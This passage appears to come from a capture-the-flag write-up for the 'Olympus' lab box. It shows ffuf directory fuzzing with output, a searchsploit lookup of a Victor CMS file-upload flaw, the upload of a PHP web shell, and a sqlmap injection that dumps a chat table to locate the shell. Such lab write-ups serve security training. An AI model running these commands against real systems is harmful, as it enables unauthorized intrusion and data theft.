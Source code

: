 I run this now in case Im missing anything:
```shell
ffuf -u http://olympus.thm/~webmaster/admin/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.html,.txt,,.zip,.conf,.log,.sql,.js,.json,.xml -mc 200,301,302,403 -fs 276 -t 50

categories.php [Status: 302, Size:10239, Words:4126, Lines:241, Duration: 222ms] 
comment.php  [Status: 302, Size: 7778, Words: 2637, Lines: 196, Duration: 231ms] 
css          [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 219ms]  
fonts        [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 213ms]  
function.php [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 317ms]
img          [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 211ms]  
includes     [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 212ms]  
index.php   [Status: 302, Size: 11408, Words: 5172, Lines: 260, Duration: 222ms] 
js           [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 216ms]
posts.php    [Status: 302, Size: 9686, Words: 2942, Lines: 222, Duration: 225ms] 
profile.php  [Status: 302, Size: 7410, Words: 2180, Lines: 199, Duration: 219ms]
users.php    [Status: 302, Size: 9070, Words: 2725, Lines: 205, Duration: 224ms]
```

I run `searchsploit "Victor CMS 1.0"` and find `The GET parameter '/admin/users.php?source=add_user' is vulnerable Arbitary File Uploads`. It seems this was patched as I can't seem to upload to `http://olympus.thm/~webmaster/admin/img/`. I can read here but not write. 

After a while I notice the admin and zeus emails are `chat.olympus.thm`. I add that to my `/etc/hosts` and land at `http://chat.olympus.thm/login.php`. I login with the same credentials `...`.

```shell
ffuf -u http://chat.olympus.thm/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.html,.txt,.zip,.conf,.log,.js,.json,.xml -mc 200,301,302,403 -fs 281 -t 50

config.php    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 208ms]  
home.php      [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 216ms]  
index.php     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 218ms]  
javascript    [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 227ms] 
login.php     [Status: 200, Size: 1577, Words: 345, Lines: 42, Duration: 215ms]  
logout.php    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 219ms]  
static        [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 218ms]  
upload.php    [Status: 200, Size: 112, Words: 18, Lines: 1, Duration: 217ms]  
uploads       [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 219ms]
```

I visit `http://chat.olympus.thm/uploads/47c3210d51761686f3af40a875eeaaea.txt` and it says `you really thought it would be this easy ?!`.

It seems I can upload any type of file I want so uploading a shell is easy. But accessing it is hard because they obfuscate the name in some way. I try to generate an `md5sum` and use that but it doesnt work. 

I can use the sql injection to dump the chat table of the app.

To be able to see the files I just uploaded I need to add the flag `--fresh-queries`:
```shell
sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" -D olympus -T chats --dump --random-agent -v 3 --fresh-queries

| 2025-07-27 | SHELL                                                     
| prometheus | <blank>                              |  
| 2025-07-27 | Attached : shell.php      
| prometheus | 000007bc943b38bd058d5b9827f789e5.php |
```
